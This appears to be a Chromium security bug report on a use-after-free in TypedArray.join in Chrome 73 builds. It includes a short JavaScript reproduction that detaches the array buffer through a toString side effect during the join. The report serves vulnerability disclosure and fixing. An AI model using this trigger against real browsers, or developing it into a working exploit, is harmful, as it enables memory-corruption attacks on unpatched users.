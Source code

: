 <b>VULNERABILITY DETAILS</b>
While verifying the fix for bug 915783, I noticed another issue in |TypedArray.join|. Converting the |separator| argument to a string has side effects, and then the method doesn't ensure that the array buffer hasn't been detached. That might lead to a similar use-after-free condition.

<b>VERSION</b>
Google Chrome 73.0.3653.0 (Official Build) canary (64-bit) (cohort: Clang-64)
Google Chrome 73.0.3642.0 (Official Build) dev (64-bit) (cohort: Dev)

<b>REPRODUCTION CASE</b>
<script>
array = new Int8Array(1024 * 1024);
array.join({toString() {
  try {
    postMessage("", "", [array.buffer]);
  } catch { }
} });
</script>